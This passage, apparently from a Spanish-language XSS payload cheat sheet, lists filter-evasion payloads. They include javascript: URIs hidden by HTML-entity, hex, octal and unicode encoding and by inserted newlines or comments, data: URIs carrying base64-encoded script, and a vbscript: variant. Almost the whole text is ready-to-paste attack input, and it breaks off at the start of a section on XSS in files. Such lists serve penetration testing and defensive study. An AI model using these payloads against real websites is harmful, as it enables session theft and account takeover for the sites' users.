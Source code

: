 ```
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS en wrappers javascript y data URI

XSS con javascript:

```
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS con data:

```
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS con vbscript: solo IE (Internet Explore)

```
vbscript:msgbox("XSS")
```

## XSSen archivos

** NOTA:** la seccion XML CDATA se utiliza aquí para que la carga útil de JavaScript no se trate como marcado XML.
